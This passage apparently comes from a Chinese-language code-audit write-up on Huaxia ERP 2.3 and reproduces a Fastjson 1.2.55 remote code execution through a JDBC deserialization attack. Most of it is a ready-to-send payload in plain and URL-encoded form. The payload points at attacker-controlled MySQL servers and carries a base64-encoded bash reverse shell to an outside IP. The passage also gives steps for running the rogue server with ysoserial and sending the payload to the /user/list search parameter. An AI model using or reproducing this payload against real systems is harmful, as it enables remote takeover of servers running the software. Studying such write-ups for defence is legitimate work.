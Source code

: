 [奇安信攻防社区 - 某开源 ERP 最新版 SQL 与 RCE 的审计过程](https://forum.butian.net/share/134)  
[华夏 ERP CMS 代码审计 - FreeBuf 网络安全行业门户](https://www.freebuf.com/vuls/370821.html)  
[蓝帽杯 2022 决赛 - 赌怪 writeup - KingBridge - 博客园](https://www.cnblogs.com/kingbridge/articles/16720318.html)

### Fastjson RCE

此版本 `华夏ERP 2.3` 是存在 `fastjson 1.2.55 RCE` 漏洞的，进行复现  
构造数据包 进行 `JDBC` 攻击

```plain
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "120.77.200.94", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }

%7b%20%22%6e%61%6d%65%22%3a%20%7b%20%22%40%74%79%70%65%22%3a%20%22%6a%61%76%61%2e%6c%61%6e%67%2e%41%75%74%6f%43%6c%6f%73%65%61%62%6c%65%22%2c%20%22%40%74%79%70%65%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%4a%44%42%43%34%43%6f%6e%6e%65%63%74%69%6f%6e%22%2c%20%22%68%6f%73%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%22%31%31%31%2e%32%32%39%2e%31%35%38%2e%34%30%22%2c%20%22%70%6f%72%74%54%6f%43%6f%6e%6e%65%63%74%54%6f%22%3a%20%33%33%30%39%2c%20%22%69%6e%66%6f%22%3a%20%7b%20%22%75%73%65%72%22%3a%20%22%79%73%6f%5f%43%6f%6d%6d%6f%6e%73%43%6f%6c%6c%65%63%74%69%6f%6e%73%36%5f%62%61%73%68%20%2d%63%20%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%7a%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%22%2c%20%22%70%61%73%73%77%6f%72%64%22%3a%20%22%70%61%73%73%22%2c%20%22%73%74%61%74%65%6d%65%6e%74%49%6e%74%65%72%63%65%70%74%6f%72%73%22%3a%20%22%63%6f%6d%2e%6d%79%73%71%6c%2e%6a%64%62%63%2e%69%6e%74%65%72%63%65%70%74%6f%72%73%2e%53%65%72%76%65%72%53%74%61%74%75%73%44%69%66%66%49%6e%74%65%72%63%65%70%74%6f%72%22%2c%20%22%61%75%74%6f%44%65%73%65%72%69%61%6c%69%7a%65%22%3a%20%22%74%72%75%65%22%2c%20%22%4e%55%4d%5f%48%4f%53%54%53%22%3a%20%22%31%22%20%7d%20%7d
```

运行 `server.py` 开启，注意这里 `config.json` 配置 (ysoserial-all.jar 和 server.py 放一起)，bash 反弹 shell

[![](assets/1710899037-e3b45c188aabe9f1f990fb41906bdcf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204956-b5a24614-d56e-1.png)

构造 `/user/list?search=编码后的内容` 发包成功反弹 shell
